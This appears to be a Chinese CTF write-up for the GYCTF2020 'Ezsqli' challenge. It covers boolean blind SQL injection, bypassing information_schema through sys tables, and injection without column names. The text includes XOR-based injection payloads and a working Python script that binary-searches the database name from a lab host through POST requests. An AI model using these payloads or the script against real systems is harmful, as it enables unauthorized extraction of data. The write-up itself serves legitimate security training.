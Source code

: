 # \[GYCTF2020]Ezsqli

## \[GYCTF2020]Ezsqli

## 考点

* 布尔盲注
* `sys.schema_table_statistics_with_buffer` bypass information\_schema
* 无列名注入

## wp

POST 参数 id 存在数字注入，POST id=0^1 返回正常，POST id= 0^0 返回 Error\
POST id=0^(ascii(substr((select%20database()),1,1))>0) 返回正常

用脚本可以跑出数据库名

```python
import requests

url = 'http://07fb8bbc-8905-4e86-aa75-150e999cc025.node3.buuoj.cn/index.php'

# 0^1返回 Nu1L
# 0^0返回 Error Occured When Fetch Result

# give_grandpa_pa_pa_pa
def get_database():
    flag = ''
    for i in range(1, 50):
        low = 32
        high = 126
        mid = (low+high)//2
        print(flag)
        
        while low < high:
            payload = f"0^(ascii(substr((select database()),{i},1))>{mid})#"
            
            data = {
                'id': payload
            }
            
            r = requests.post(url=url, data=data)
            # print(r.text)
            if 'Nu1L' in  r.text:
                low = mid + 1
            if 'Error' in r.text:
                high = mid
                
            mid = (low+high)//2
            
            if low == high:
                flag = flag + chr(low)
                break
```

